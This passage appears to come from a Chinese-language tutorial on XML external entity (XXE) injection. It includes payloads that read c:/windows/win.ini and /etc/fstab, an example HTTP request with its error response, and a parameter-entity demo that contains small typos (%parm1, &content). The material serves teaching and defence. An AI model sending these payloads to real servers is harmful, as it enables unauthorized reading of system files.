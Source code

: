 `<!ENTITY evil SYSTEM “file:///c:/windows/win.ini" >`

2

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 " ">
    <!ENTITY % param3 "World">
    <!ENTITY dtd SYSTEM "combine.dtd">
    %dtd;
]>
<root><foo>&content</foo></root>
```

combine.dtd的内容为：

*`<!ENTITY content "%parm1;%parm2;%parm3;">`*

说明：

上面combine.dtd中定义了一个基本实体，引用了3个参数实体：%param1;，%param2;，%param3;。

解析后`<foo>…</foo>`中的内容为Hello World。

## 3.XML外部实体的一些限制与解决办法

**error**

通常对于XXE的经典用法，用来读取文件比较直接方便，但是，也决定了能被解析的内容元素必须是XML文档。

如下面一个例子：

request:

```xml-dtd
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/fstab">;
]>
<foo>
  &bar;
</foo>
```

response:

通常会得到如下响应

```xml
HTTP/1.0 500 Internal Server Error

File "file:///etc/fstab", line 3
lxml.etree.XMLSyntaxError: Specification mandate value for attribute system, line 3, column 15...

```
